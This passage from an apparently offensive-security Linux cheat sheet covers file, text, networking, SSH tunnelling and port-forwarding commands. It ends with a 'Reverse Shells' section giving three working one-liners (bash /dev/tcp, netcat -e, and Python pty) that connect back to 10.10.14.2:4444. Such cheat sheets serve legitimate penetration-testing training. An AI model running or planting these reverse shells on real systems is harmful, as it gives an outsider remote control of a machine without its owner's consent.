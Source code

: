 ***

### IV. 🧰 File Operations & Manipulation

#### ⚙️ Basic Ops

```bash
cp, mv, rm, touch, mkdir, rmdir, ln -s
```

#### 🧱 Text Handling

```bash
cat, less, head, tail, sort, uniq, cut, awk, sed
```

#### 🧮 Count & Filter

```bash
wc -l file.txt
grep "pattern" file.txt
grep -r "pattern" /etc/
awk -F: '{print $1,$3,$6}' /etc/passwd
```

***

### V. 🛰️ Networking & Remote Access

#### 🌐 Connections

```bash
ping -c 4 target
traceroute target
curl -I https://target
wget https://target/file
```

#### 🔁 Tunnels

```bash
ssh user@host
scp file user@host:/path/
rsync -avz /dir/ user@host:/dest/
```

#### 🔄 Port Forwarding

```bash
ssh -L 8080:127.0.0.1:80 user@target
```

#### ⚙️ Reverse Shells (Manual)

```bash
bash -i >& /dev/tcp/10.10.14.2/4444 0>&1
nc -e /bin/sh 10.10.14.2 4444
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.2",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```
